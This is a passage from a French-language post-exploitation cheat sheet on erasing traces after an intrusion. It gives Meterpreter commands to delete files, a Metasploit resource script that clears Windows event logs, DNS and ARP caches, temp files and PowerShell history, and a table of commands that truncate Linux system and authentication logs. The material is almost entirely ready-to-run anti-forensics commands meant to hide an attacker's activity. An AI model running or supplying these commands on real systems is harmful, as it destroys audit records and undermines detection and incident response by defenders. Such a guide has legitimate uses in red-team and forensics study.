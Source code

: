 ### **📁 Nettoyage de fichiers via Meterpreter**

#### **Suppression sécurisée**
```bash
# Supprimer des fichiers
meterpreter > rm C:\\temp\\malicious.exe

# Supprimer récursivement
meterpreter > rm -rf C:\\temp\\malware_folder

# Attention : rm basique ne fait pas d'écrasement sécurisé
# Pour écrasement : utiliser shell + sdelete
meterpreter > shell
C:\> sdelete -p 3 -s -z C:\temp\sensitive.txt
C:\> exit
```

### **🎯 Script Meterpreter automatisé**

#### **Resource script de nettoyage**
```bash
# Fichier cleanup.rc
# Usage : msfconsole -r cleanup.rc

clearev
execute -f "cmd.exe" -a "/c ipconfig /flushdns"
execute -f "cmd.exe" -a "/c arp -d *"
execute -f "cmd.exe" -a "/c del %TEMP%\\*.* /s /q"
execute -f "cmd.exe" -a "/c del C:\\Windows\\Temp\\*.* /s /q"
execute -f "powershell.exe" -a "-Command Remove-Item $env:APPDATA\\Microsoft\\Windows\\PowerShell\\PSReadline\\* -Force"
```

---

# 🐧 PARTIE 2 : LINUX

## 🎯 1. Endroits à nettoyer manuellement

### **📋 Log files système**
| Type de Log | Emplacement | Commande de nettoyage |
|-------------|-------------|---------------------|
| **System logs** | `/var/log/messages` | `> /var/log/messages` |
| **Authentication** | `/var/log/auth.log` | `> /var/log/auth.log` |
| **Secure logs** | `/var/log/secure` | `> /var/log/secure` |
| **Kernel logs** | `/var/log/kern.log` | `> /var/log/kern.log` |
| **Syslog** | `/var/log/syslog` | `> /var/log/syslog` |
| **Boot logs** | `/var/log/boot.log` | `> /var/log/boot.log` |
